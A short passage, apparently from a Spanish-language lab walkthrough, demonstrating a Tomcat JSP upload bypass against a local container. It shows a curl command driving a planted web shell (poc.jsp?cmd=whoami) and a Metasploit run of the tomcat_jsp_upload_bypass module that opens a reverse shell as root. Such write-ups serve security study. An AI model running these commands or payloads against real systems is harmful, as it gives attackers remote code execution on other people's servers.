 Ejecución de comando y limpieza de output.

```bash
**curl** http://*TARGET_IP*:*PORT*/poc.jsp?cmd=***whoami** | **sed** 's/<[^>]*>//g'*
```

![Untitled](images/Untitled%204.png)

Ejecución de comando desde el navegador.

![Untitled](images/3b4afb5c-4756-4cfb-9d62-ffe9531d17b8.png)

## METASPLOIT

```bash
**use** exploit/multi/http/tomcat_jsp_upload_bypass
*Using configured payload generic/shell_reverse_tcp*

**set** RHOST 127.0.0.1
*RHOST => 127.0.0.1*

**set** RPORT 80
*RPORT => 80*

**exploit**

**[*]** Started reverse TCP handler on 127.0.0.1:4444 
**[*]** Uploading payload...
**[*]** Payload executed!
**[*]** Command shell session 1 opened (127.0.0.1:4444 -> 172.17.0.2:36256) at 2024-07-02 15:31:51 -0500

whoami
root
```
